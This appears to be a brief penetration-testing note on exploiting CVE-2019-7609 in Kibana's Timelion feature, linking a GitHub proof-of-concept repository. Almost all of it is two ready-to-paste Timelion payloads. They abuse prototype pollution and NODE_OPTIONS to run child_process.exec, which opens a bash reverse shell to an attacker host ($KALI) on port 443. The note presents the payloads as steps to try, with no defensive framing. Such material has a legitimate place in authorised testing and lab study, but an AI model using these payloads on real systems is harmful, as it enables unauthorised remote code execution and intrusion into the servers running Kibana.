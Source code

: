 https://github.com/mpgn/CVE-2019-7609
![[1._rlwrap]]
Left side menu > Timelion > Try one of the following 2 exploits:
```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/$KALI/443 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```
```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/$KALI/443 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```
